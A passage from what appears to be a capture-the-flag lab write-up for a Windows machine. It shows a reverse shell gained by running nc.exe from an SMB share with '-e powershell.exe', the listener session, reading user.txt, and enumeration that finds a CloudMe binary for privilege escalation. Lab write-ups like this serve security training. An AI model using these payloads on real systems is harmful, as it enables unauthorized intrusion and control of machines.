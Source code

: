 We can now get a reverse-shell by serving `nc.exe` via smb and executing following payload on the web-shell:

```powershell
\\IP\share\nc.exe IP PORT -e powershell.exe
```



### Getting shell and reading user.txt

Let us start our listener and execute the payload.

```powershell
root@darkness:~# nc -lvnp 443
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.198.
Ncat: Connection from 10.10.10.198:49729.
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\xampp\htdocs\gym\upload> whoami
buff\shaun
PS C:\xampp\htdocs\gym\upload> type C:\Users\Shaun\Desktop\user.txt
b66e8***************************
```

We get a connection back and can read user.txt.

## Privesc

Now that we have successfully gained access to the system, let us enumerate to find a privesc-vector.

### Enumeration as buff\shaun

Let us check out the home-directory of shaun.

```powershell
PS C:\Users\Shaun\Downloads> dir


    Directory: C:\Users\Shaun\Downloads


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----       16/06/2020     16:26       17830824 CloudMe_1112.exe
```

Looking at the Downloads-folder of the user, we get an interesting binary: `CloudMe_1112.exe`. Let us do some research on this binary.

